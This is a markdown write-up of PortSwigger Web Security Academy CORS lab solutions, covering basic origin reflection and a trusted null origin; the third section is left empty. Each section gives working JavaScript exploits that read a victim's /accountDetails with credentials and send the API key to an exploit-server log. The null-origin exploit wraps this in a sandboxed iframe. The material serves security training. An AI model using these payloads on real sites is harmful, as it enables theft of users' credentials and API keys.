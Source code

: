 <!-- omit in toc -->
# CORS

<!-- omit in toc -->
## Table of Contents

- [CORS vulnerability with basic origin reflection](#cors-vulnerability-with-basic-origin-reflection)
- [CORS vulnerability with trusted null origin](#cors-vulnerability-with-trusted-null-origin)
- [CORS vulnerability with trusted insecure protocols](#cors-vulnerability-with-trusted-insecure-protocols)

## CORS vulnerability with basic origin reflection
Reference: https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack

<!-- omit in toc -->
### Quick Solution
An exploit can be crafted and delivered to the victim to get the ``apikey``. The solution uses the old ``XMLHttpRequest``. I used the ``fetch`` with the ``credentials: include`` header. Here is the full exploit:
```javascript
<script>
const exploit = async () => {
    const labBaseUrl = <base_lab_url>;
    const details = '/accountDetails';
    const response = await fetch(`${labBaseUrl}${details}`, {credentials: 'include'});
    const data = await response.json();
    fetch(`/hacked?apikey=${data.apikey}`)
}

exploit()
</script>
```

<!-- omit in toc -->
### Solution
1. With your browser proxying through Burp Suite, check intercept is off then log in and access your account page.
2. Review the history and observe that your key is retrieved via an AJAX request to ``/accountDetails``, and the response contains the ``Access-Control-Allow-Credentials`` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header: ``Origin: https://example.com``
4. Observe that the origin is reflected in the ``Access-Control-Allow-Origin`` header.
5. In your browser, go to the exploit server and enter the following HTML, replacing ``$url`` with your unique lab URL:
```javascript
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','$url/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script>
```
6. Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.
7. Go back to the exploit server and click "Deliver exploit to victim".
8. Click "Access log", retrieve and submit the victim's API key to complete the lab.

## CORS vulnerability with trusted null origin
Reference: https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack

<!-- omit in toc -->
### Quick Solution
In this case the ``null`` Origin value is **whitelisted**. Browsers might send the value ``null`` in the Origin header in various unusual situations, **Sandboxed cross-origin requests** is one of them. So we can reuse the previous exploit and wrap it inside a sandboxed iframe:
```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
    <script>
        const exploit = async () => {
            const labBaseUrl = <base_lab_url>;
            const details = '/accountDetails';
            const response = await fetch(`${labBaseUrl}${details}`, {credentials: 'include'});
            const data = await response.json();
            fetch(`/hacked?apikey=${data.apikey}`)
        }

        exploit()
    </script>
"></iframe>
```

<!-- omit in toc -->
### Solution
1. With your browser proxying through Burp Suite, check intercept is off, log in to your account, and click "My account".
2. Review the history and observe that your key is retrieved via an AJAX request to ``/accountDetails``, and the response contains the ``Access-Control-Allow-Credentials`` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header ``Origin: null.``
4. Observe that the "null" origin is reflected in the ``Access-Control-Allow-Origin`` header.
5. In your browser, go to the exploit server and enter the following HTML, replacing $url with the URL for your unique lab URL and ``$exploit-server-url`` with the exploit server URL
```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','$url/accountDetails',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='$exploit-server-url/log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```
Notice the use of an iframe sandbox as this generates a null origin request.
6. Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.
7. Go back to the exploit server and click "Deliver exploit to victim".
8. Click "Access log", retrieve and submit the victim's API key to complete the lab.

## CORS vulnerability with trusted insecure protocols
Reference: https://portswigger.net/web-security/cors/lab-breaking-https-attack

<!-- omit in toc -->
### Quick Solution

<!-- omit in toc -->
### Solution